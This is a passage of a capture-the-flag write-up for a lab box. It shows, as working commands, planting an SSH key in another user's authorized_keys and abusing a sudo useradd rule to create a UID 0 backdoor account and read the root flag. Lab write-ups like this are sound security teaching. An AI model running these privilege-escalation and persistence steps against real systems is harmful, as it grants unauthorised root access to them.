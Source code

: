 to get access to user3 we can update the runMe.sh to create .ssh directory and add our public key to the authorized_keys file

update runMe.sh with following commands

```
cd ../user3
mkdir .ssh
cd .ssh
echo "public_key_here" > authorized_keys
```

We can ssh into the user3 like the previous accounts with command

```
ssh user3@the-gauntlet.hkn
```
### Getting Root

Running `sudo -l` as user3 gives us the following output
```
Matching Defaults entries for user3 on ca0a1536712e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User user3 may run the following commands on ca0a1536712e:
    (root) NOPASSWD: /usr/sbin/useradd *
```

So we can execute useradd command as root, and any arguments without the need of the password.

So we can create accounts, so I assume we can create an account with root permissions, allowing us to run the root binary. We can do this with following commands


```
sudo -u root useradd -o --uid 0 --gid 0 user4 --password $(echo password | openssl passwd -6 -stdin)
```

The command creates user4 with password `password` that is encrypted using openssl, and we have `-o` tag that bypasses duplicate uid check.

We can now log into user4 with `su user4` and enter `password` as the password. 

we can confirm we have root with `id`

```
uid=0(root) gid=0(root) groups=0(root)
```

last step is running the root binary
```
./root/root.flag
```

and we get the following flag

```
DDC{1_h0p3_y0u_enj0y3d_my_f1r27_B2R}
```

